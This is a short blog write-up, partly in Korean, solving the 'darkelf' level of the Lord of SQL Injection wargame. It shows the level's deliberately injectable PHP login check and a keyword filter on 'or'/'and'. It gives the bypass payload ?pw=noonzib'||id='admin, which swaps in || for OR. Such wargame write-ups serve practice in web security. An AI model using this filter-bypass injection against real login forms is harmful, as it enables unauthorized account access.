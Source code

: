 ```yaml
---
layout: post
title:  "los prob_darkelf"
date:   2019-08-23
excerpt: "Lord of Sql Injection"
tag:
- los
- sqli
- wargame
- webhacking
comments: true
---
```

> query : select id from prob_darkelf where id='guest' and pw=''

~~~ php
<?php 
  include "./config.php"; 
  login_chk(); 
  $db = dbconnect();  
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  if(preg_match('/or|and/i', $_GET[pw])) exit("HeHe"); 
  $query = "select id from prob_darkelf where id='guest' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
  if($result['id'] == 'admin') solve("darkelf"); 
  highlight_file(__FILE__); 
?>
~~~

# Solve

* or,and가 필터링 -> "or" : "\|\|", "and" : "&&"로 우회
* 연산자 우선 순위 -> and > or 

### ?pw=noonzib'||id='admin

## DARKELF Clear!
